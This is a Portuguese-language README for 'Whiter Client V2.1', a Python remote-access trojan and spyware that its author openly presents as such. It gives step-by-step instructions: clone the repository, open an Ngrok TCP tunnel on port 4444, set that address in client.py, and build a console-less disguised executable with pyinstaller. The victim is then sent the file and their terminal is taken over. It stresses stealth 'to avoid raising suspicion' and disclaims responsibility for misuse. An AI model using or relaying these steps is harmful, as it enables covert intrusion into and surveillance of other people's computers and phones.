 

# Whiter Client V2.1

By Dragonmodder (Jhon)

Whiter Client é uma ferramenta de administração remota (RAT) e também um spyware, desenvolvida em Python puro. 

Recursos principais:


Arquivo .exe leve e disfarçado

Invisível (sem console) para não levantar suspeitas

Comunicação via Ngrok — conecta de qualquer lugar

Comandos de terminal em tempo real


Observações:

Caso usar para o mau, eu não me responsabilizo por qualquer dado em telemóveis ou computadores de outras pessoas. 

Instalação

No Android (Termux):

pkg update && pkg install git python -y
git clone https://github.com/Dragonmodder7/Whiter-Client.git
cd Whiter-Client
python client.py

No Linux:

sudo apt update && sudo apt install git python -y
git clone https://github.com/Dragonmodder7/Whiter-Client.git
cd Whiter-Client
python client.py


Instalação (Servidor)

1. Instale o Python e o Ngrok


2. Rode: ngrok tcp 4444 e anote o IP e porta


3. Substitua no client.py o IP e porta


4. Gere o .exe invisível com:

pyinstaller --onefile --noconsole client.py


5. Envie o client.exe para a vítima


6. Execute python server.py e aguarde a conexão


Comandos Disponíveis

cd, ls, cat, exit e todos os comandos de terminal

O terminal da vítima fica 100% sob seu controle. 
